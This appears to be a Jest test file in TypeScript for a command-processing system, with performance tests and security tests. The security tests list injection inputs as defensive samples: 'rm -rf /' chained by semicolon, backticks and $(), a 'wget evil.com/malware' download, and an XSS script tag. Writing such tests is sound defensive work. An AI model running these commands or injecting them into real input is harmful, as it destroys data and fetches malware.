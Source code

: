 ### Performance Testing
```typescript
describe('Performance Requirements', () => {
  test('startup time under 3 seconds', async () => {
    const start = Date.now();
    await system.initialize();
    expect(Date.now() - start).toBeLessThan(3000);
  });
  
  test('command processing under 2 seconds', async () => {
    const timings = [];
    for (const cmd of commonCommands) {
      const start = Date.now();
      await system.process(cmd);
      timings.push(Date.now() - start);
    }
    expect(Math.max(...timings)).toBeLessThan(2000);
  });
  
  test('memory usage stays under budget', async () => {
    const baseline = process.memoryUsage().heapUsed;
    
    // Process 100 commands
    for (let i = 0; i < 100; i++) {
      await system.process(`install package${i}`);
    }
    
    const used = process.memoryUsage().heapUsed - baseline;
    expect(used).toBeLessThan(300 * 1024 * 1024); // 300MB
  });
});
```

### Security Testing
```typescript
describe('Security Boundaries', () => {
  test('prevents command injection', async () => {
    const maliciousInputs = [
      'install firefox; rm -rf /',
      'install `rm -rf /`',
      'install $(dangerous command)',
      'install && wget evil.com/malware'
    ];
    
    for (const input of maliciousInputs) {
      const result = await system.process(input);
      expect(result.blocked).toBe(true);
      expect(result.reason).toContain('security');
    }
  });
  
  test('sanitizes all outputs', async () => {
    const result = await system.process('install <script>alert("xss")</script>');
    expect(result.display).not.toContain('<script>');
    expect(result.sanitized).toBe(true);
  });
});
```
